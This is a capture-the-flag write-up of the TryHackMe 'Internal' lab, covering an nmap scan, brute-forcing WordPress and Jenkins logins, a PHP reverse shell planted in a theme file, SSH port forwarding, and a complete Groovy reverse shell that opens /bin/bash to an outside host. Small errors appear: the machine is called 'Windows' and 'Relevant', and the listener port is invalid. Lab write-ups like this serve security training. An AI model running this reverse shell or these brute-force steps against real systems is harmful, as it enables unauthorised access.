 ```yaml
---
title: THM - Internal
author: z3nn
date: 2020-09-24 19:53:00 +0200
categories: [Hacking, TryHackMe]
description: TryHackMe Internal Windows Box
tags: [tryhackme, internal, windows, offensive pentest, security, security missconfiguration, pentest]
---
```


# TryHackMe - Internal
A write-up to the Relevant machine provided by [TryHackMe](https://tryhackme.com/) and created by [TheMayor](https://twitter.com/joehelle). This machine is part of the `Offensive Pentesting` learning path from THM in the `Advanced Exploitation` Section being rated as a `Hard` difficulty.... Let's get to it.

The description of this machine is quite nice, having a roleplay in it to put you into the mindset of a pentester that needs to gather information about it's target (`recon`).

> You might notice the machine IP changing a few times in this write-up... that's because I wrote this the day after I completed the challenge and I had to stop / start the machine as needed to get back some information.

# Recon
Starting off with a recon on the machine to see what ports are open, what services are active, etc.

```
$ nmap -sS -sV -oA internal-vuln --script=default,vuln -p- -T5 10.10.231.241
[sudo] password for z3nn:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 19:55 EEST
Nmap scan report for 10.10.231.241
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
| vulners:
|   cpe:/a:openbsd:openssh:7.6p1:
|       CVE-2008-3844   9.3     https://vulners.com/cve/CVE-2008-3844
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2014-9278   4.0     https://vulners.com/cve/CVE-2014-9278
|_      CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache2 Ubuntu Default Page: It works
| vulners:
|   cpe:/a:apache:http_server:2.4.29:
|       CVE-2010-0425   10.0    https://vulners.com/cve/CVE-2010-0425
|       CVE-1999-1412   10.0    https://vulners.com/cve/CVE-1999-1412
|       CVE-1999-1237   10.0    https://vulners.com/cve/CVE-1999-1237
|       CVE-1999-0236   10.0    https://vulners.com/cve/CVE-1999-0236
|       CVE-2009-1955   7.8     https://vulners.com/cve/CVE-2009-1955
|       CVE-2007-6423   7.8     https://vulners.com/cve/CVE-2007-6423
|       CVE-2007-0086   7.8     https://vulners.com/cve/CVE-2007-0086
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CVE-2009-3095   7.5     https://vulners.com/cve/CVE-2009-3095
|       CVE-2007-4723   7.5     https://vulners.com/cve/CVE-2007-4723
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       CVE-2009-1891   7.1     https://vulners.com/cve/CVE-2009-1891
|       CVE-2009-1890   7.1     https://vulners.com/cve/CVE-2009-1890
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2008-2579   6.8     https://vulners.com/cve/CVE-2008-2579
|       CVE-2007-5156   6.8     https://vulners.com/cve/CVE-2007-5156
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2019-10097  6.0     https://vulners.com/cve/CVE-2019-10097
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2014-0231   5.0     https://vulners.com/cve/CVE-2014-0231
|       CVE-2011-1752   5.0     https://vulners.com/cve/CVE-2011-1752
|       CVE-2010-1452   5.0     https://vulners.com/cve/CVE-2010-1452
|       CVE-2010-0408   5.0     https://vulners.com/cve/CVE-2010-0408
|       CVE-2009-2699   5.0     https://vulners.com/cve/CVE-2009-2699
|       CVE-2007-0450   5.0     https://vulners.com/cve/CVE-2007-0450
|       CVE-2005-1268   5.0     https://vulners.com/cve/CVE-2005-1268
|       CVE-2003-0020   5.0     https://vulners.com/cve/CVE-2003-0020
|       CVE-2001-1556   5.0     https://vulners.com/cve/CVE-2001-1556
|       CVE-1999-0678   5.0     https://vulners.com/cve/CVE-1999-0678
|       CVE-1999-0289   5.0     https://vulners.com/cve/CVE-1999-0289
|       CVE-1999-0070   5.0     https://vulners.com/cve/CVE-1999-0070
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       CVE-2009-1195   4.9     https://vulners.com/cve/CVE-2009-1195
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2011-1783   4.3     https://vulners.com/cve/CVE-2011-1783
|       CVE-2010-0434   4.3     https://vulners.com/cve/CVE-2010-0434
|       CVE-2008-2939   4.3     https://vulners.com/cve/CVE-2008-2939
|       CVE-2008-2168   4.3     https://vulners.com/cve/CVE-2008-2168
|       CVE-2008-0455   4.3     https://vulners.com/cve/CVE-2008-0455
|       CVE-2007-6420   4.3     https://vulners.com/cve/CVE-2007-6420
|       CVE-2007-6388   4.3     https://vulners.com/cve/CVE-2007-6388
|       CVE-2007-5000   4.3     https://vulners.com/cve/CVE-2007-5000
|       CVE-2007-4465   4.3     https://vulners.com/cve/CVE-2007-4465
|       CVE-2007-1349   4.3     https://vulners.com/cve/CVE-2007-1349
|       CVE-2007-6422   4.0     https://vulners.com/cve/CVE-2007-6422
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2007-6421   3.5     https://vulners.com/cve/CVE-2007-6421
|_      CVE-2001-0131   1.2     https://vulners.com/cve/CVE-2001-0131
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.98 seconds
```

Not many open ports unlike other machines, just a 22 and 80... but what's running on that port 80 is interesting. First impressions is that it's just a basic apache2 instalation and that's all, nothing much to it... but our scan reveals a bit more information

## The blog
There is a `/blog/` which appears to be some sort of wordpress blog... one problem, it looks fucked... just look at it...

![blog1](/assets/img/posts/thm_internal_blog1.jpg)

Checking the dev console... and some of the page links I noticed something, the missing refferences where pointing to `internal.htm`, a host which I didn't setup in my `/etc/hosts` file because I was lazy... let's do that

![blog2](/assets/img/posts/thm_internal_blog2.jpg)

Now it loos better :) ... back to hacking

Looking through what the webapp has to offer a tried a few things:
- exploiting xmlrpc.php (using metasploit)
- exploting phpmyadmin (using metasploit)


None of these were fruitfull, I resorted to trying to brutforce passwords in PhpMyAdmin and the Wordpress app. For wordpress I noticed on the first post that the Author was `Admin` so I used that as my username and for PhpMyAdmin I used the default `root` user.

I had success with WPscan to bruteforce the password for `admin`. 

Looking throught the Wordpress dashboard for admin I found a Private post that had credentials for good ol' Will... Will's credentials were useless.

### Gaining a foothold
One vulnerability here is the ability to edit the PHP files of Wordpress, so that's what we'll do.... Addidng the code for a PHP Reverse shell in the 404.php file does the trick.

We now have access ass `www-data`. Looking through `/home` we see there is no `will` user so that set of credentials was a total waste.... enumeraitng

> a few years of enumeration later

There's a `.txt` file hidden in /opt that has credentials for our user.

# PrivEsc

In the home of our user we can see a `jenkins.txt` file informs us of an internal Jenkins service running on a specific IP and port. 

We are going to forward it to our attacking machine:
```shell
ssh -L 9595:172.17.0.2:8080 aubreanna@internal.thm
```

After this we can now access the Jenkins app in our browser with: `http://127.0.0.1:9595`. There's no easy way from here, just brute force for the jenkins password.

After credentials are obtained next thing we can do is abuse the Groovy Script console to get Shell.
Go To `Manage Jenkins` > `Script Console` and add the following script.

```groovy
String host="1.1.1.1";
int port=8586;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Open a netcat listener on attacking machine on the same port as the one in our Groovy script:
```
nc -lnvp 85856
```

Run the groovy script. We now have a reverse shell as Jenkins. This time I went straight to check the `/opt` directory to see if this machine has something else there... surprise, there's root credentials

> ssh into the machine using the root credentials and get flag.

# Conclusion
Overall it was a nice machine with it's ups and downs and manual enumeration, or snooping around, was what got you to find the interesting info.